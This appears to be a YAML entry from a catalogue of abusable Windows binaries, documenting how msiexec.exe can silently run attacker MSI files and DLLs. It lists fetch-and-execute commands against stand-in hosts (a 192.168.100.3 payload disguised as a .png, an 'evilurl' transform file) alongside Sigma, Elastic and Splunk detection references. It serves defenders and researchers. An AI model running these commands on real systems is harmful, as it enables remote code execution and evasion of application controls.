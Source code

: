 ```yaml
---
Name: Msiexec.exe
Description: Used by Windows to execute msi files
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: msiexec /quiet /i cmd.msi
    Description: Installs the target .MSI file silently.
    Usecase: Execute custom made msi file with attack code
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: MSI
  - Command: msiexec /q /i http://192.168.100.3/tmp/cmd.png
    Description: Installs the target remote & renamed .MSI file silently.
    Usecase: Execute custom made msi file with attack code from remote server
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: MSI
      - Execute: Remote
  - Command: msiexec /y "C:\folder\evil.dll"
    Description: Calls DllRegisterServer to register the target DLL.
    Usecase: Execute dll files
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
      - Execute: Remote
  - Command: msiexec /z "C:\folder\evil.dll"
    Description: Calls DllUnregisterServer to un-register the target DLL.
    Usecase: Execute dll files
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
      - Execute: Remote
  - Command: msiexec /i "https://trustedURL/signed.msi" TRANSFORMS="https://evilurl/evil.mst" /qb
    Description: Installs the target .MSI file from a remote URL, the file can be signed by vendor. Additional to the file a transformation file will be used, which can contains malicious code or binaries. The /qb will skip user input.
    Usecase: Install trusted and signed msi file, with additional attack code as transformation file, from a remote server
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: MSI
      - Execute: MST
      - Execute: Remote
Full_Path:
  - Path: C:\Windows\System32\msiexec.exe
  - Path: C:\Windows\SysWOW64\msiexec.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_msiexec_web_install.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_msiexec_masquerading.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
  - Splunk: https://github.com/splunk/security_content/blob/18f63553a9dc1a34122fa123deae2b2f9b9ea391/detections/endpoint/uninstall_app_using_msiexec.yml
  - IOC: msiexec.exe retrieving files from Internet
Resources:
  - Link: https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/
  - Link: https://twitter.com/PhilipTsukerman/status/992021361106268161
  - Link: https://badoption.eu/blog/2023/10/03/MSIFortune.html
Acknowledgement:
  - Person: netbiosX
    Handle: '@netbiosX'
  - Person: Philip Tsukerman
    Handle: '@PhilipTsukerman'
---
```

